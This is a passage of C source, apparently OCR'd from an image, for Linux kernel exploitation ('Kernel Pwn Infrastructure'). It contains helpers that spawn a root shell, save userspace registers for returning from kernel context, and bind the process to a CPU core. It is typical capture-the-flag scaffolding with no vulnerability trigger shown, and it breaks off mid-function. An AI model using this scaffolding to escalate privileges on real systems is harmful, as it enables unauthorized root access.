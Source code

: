 ```c
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/sem.h>
#include <semaphore.h>
#include <stdint.h>
#include <poll.h>

/**
 * Kernel Pwn Infrastructure
**/

size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

/* root checker and shell poper */
void get_root_shell(void)
{
    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        exit(EXIT_FAILURE);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m[*] Execve root shell now...\033[0m");
    
    system("/bin/sh");
    
    /* to exit the process normally, instead of segmentation fault */
    exit(EXIT_SUCCESS);
}

/* userspace status saver */
size_t user_cs, user_ss, user_rflags, user_sp;

void save_status()
{
    asm volatile(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

/* bind the process to specific core */
void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
```